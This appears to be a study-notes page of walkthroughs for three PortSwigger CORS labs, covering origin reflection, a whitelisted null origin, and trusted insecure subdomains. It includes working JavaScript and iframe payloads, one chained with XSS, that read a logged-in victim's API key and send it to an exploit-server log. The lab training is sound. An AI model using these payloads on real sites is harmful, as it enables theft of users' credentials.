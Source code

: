 ## Table of Contents

- [[#CORS vulnerability with basic origin reflection]]
- [[#CORS vulnerability with trusted null origin]]
- [[#CORS vulnerability with trusted insecure protocols]]

## CORS vulnerability with basic origin reflection
Reference: https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

```ad-hint
title: Quick Solution
An exploit can be crafted and delivered to the victim to get the ``apikey``. The solution uses the old ``XMLHttpRequest``. I used the ``fetch`` with the ``credentials: include`` header. Here is the full exploit:
```javascript
<script>
const exploit = async () => {
    const labBaseUrl = <base_lab_url>;
    const details = '/accountDetails';
    const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
    const data = await response.json();
    fetch(`/hacked?apikey=${data.apikey}`)
}

exploit()
</script>
```

```ad-done
title: Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header: ``Origin: https://example.com``
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing \$url with your unique lab URL:
	~~~javascript
	<script>
	   var req = new XMLHttpRequest();
	   req.onload = reqListener;
	   req.open('get','$url/accountDetails',true);
	   req.withCredentials = true;
	   req.send();
	
	   function reqListener() {
       location='/log?key='+this.responseText;
	   };
	</script>
	~~~

6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.
```

## CORS vulnerability with trusted null origin
Reference: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

```ad-hint
title: Quick Solution
In this case the ``null`` Origin value is **whitelisted**. Browsers might send the value ``null`` in the Origin header in various unusual situations, **Sandboxed cross-origin requests** is one of them. So we can reuse the previous exploit and wrap it inside a sandboxed iframe:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
    <script>
        const exploit = async () => {
            const labBaseUrl = <base_lab_url>;
            const details = '/accountDetails';
            const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
            const data = await response.json();
            fetch(`/hacked?apikey=${data.apikey}`)
        }

        exploit()
    </script>
"></iframe>
```

```ad-done
title: Solution
1. With your browser proxying through Burp Suite, check intercept is off, log in to your account, and click "My account".
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: null.``
4. Observe that the "null" origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing `$url` with the URL for your unique lab URL and ``$exploit-server-url`` with the exploit server URL
~~~javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','$url/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
~~~
Notice the use of an iframe sandbox as this generates a null origin request.
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.
```

## CORS vulnerability with trusted insecure protocols
Reference: https://portswigger.net/web-security/cors/lab-breaking-https-attack

```ad-hint
title: Quick Solution
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol. There is also a vulnerable subdomain endpoint used to check the stock that is vulnerable to XSS. This endpoint can be leveraged to exfiltrate date frmo the main domain. In the exploit server we just have to redirect the user to the vulnerable subdomain and perform XSS on it, see next paragraph for Solution.
```

```ad-done
title: Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: http://subdomain.lab-id`` where ``lab-id`` is the lab domain name.
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
5. Open a product page, click "Check stock" and observe that it is loaded using a HTTP URL on a subdomain.
6. Observe that the ``productID`` parameter is vulnerable to XSS.
7. In your browser, go to the exploit server and enter the following HTML, replacing ``$your-lab-url`` with your unique lab URL and ``$exploit-server-url`` with your exploit server URL:
~~~html
<script>
   document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
~~~
```
